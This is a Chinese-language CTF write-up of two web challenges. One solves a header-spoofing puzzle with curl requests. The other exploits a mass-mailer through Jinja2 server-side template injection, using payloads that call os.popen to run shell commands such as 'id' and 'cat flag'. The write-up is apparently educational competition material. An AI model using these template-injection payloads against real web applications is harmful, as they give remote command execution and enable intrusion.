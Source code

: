 [参考wp](https://github.com/csivitu/CTF-Write-ups/tree/master/Deconstruct.f/web/Curly%20Fries%203)

看到第一个提示之后不够敏感，我们可以设置来源refer是google.com

```
curl -i -X POST -H "Referer: https://www.google.com" http://overly.uniquename.xyz:2095/
```

回显中提示我们再设置Host

```
curl -i -X POST -H "Referer: https://www.google.com" -H"Host:https://dscvit.com" http://overly.uniquename.xyz:2095/
```

回显*potates and carrots are my friends, milk and Cookies will be my end*，不是很明显，但是应该设置cookie=root

之后回显*JFATHER, JMOTHER, JDAUGHTER, ____?*，提示把content-type改为json

回显*{'error': 'json data missing'}*，添加一点data

```
curl -i -X POST -H "Referer: https://www.google.com" -H "Host: https://www.dscvit.com" -H "Content-Type: application/json" --cookie "user=root" -d '{"foo":"bar"}' http://overly.uniquename.xyz:2095/
```

回显*{'error': {'messi': 'required'}}*，将foo改为bar，回显*{'error': {'messi': 'which club am i at?'}}*

*不太懂为啥这就能知道把bar赋值为PSG？？？

```
curl -i -X POST -H "Referer: https://www.google.com" -H "Host: https://www.dscvit.com" -H "Content-Type: application/json" --cookie "user=root" -d '{"messi":"psg"}' http://overly.uniquename.xyz:2095/
```

得到flag `dsc{th15_15_w4y_t00_much_w0rk}`



## Web/Mega Mailer

> We recently launched a mass email sender that can work with any SMTP server, but recently we have reports of information leaks and and trolling through our service. Can you find whats wrong with it ?

![image-20211004005500420](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211004005500420.png)

讲真，之前没接触过

首先在自己的vps上开一个smtp的服务，用python开

```bash
python3 -m smtpd -c DebuggingServer -n 0.0.0.0:25
```

然后其它信息正常填，body部分存在ssti注入，payload来自于[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)

```
{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read()}}
{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls -a').read()}}
{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag').read()}}
```
